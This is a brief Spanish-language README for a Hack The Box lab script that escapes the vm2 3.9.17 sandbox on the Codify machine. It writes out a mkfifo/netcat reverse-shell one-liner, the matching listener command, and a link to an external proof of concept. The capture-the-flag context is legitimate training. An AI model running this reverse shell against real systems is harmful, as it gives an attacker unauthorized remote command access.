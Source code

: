 # Scripts

- Este script se usó para escapar del sandbox vm2@3.9.17 en la máquina Codify de HTB. Podemos llegar a injectar comandos "RCE" y entablar una revshell.
- Ejecutar Revshell con mkfifo:
	1. Shell RCE $> `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc [tuIP] [PortListener] >/tmp/f`
	2. KALI $> `sudo nc -nlvp [PortListener]`

# Referencias

- Más info en este PoC -> https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac 

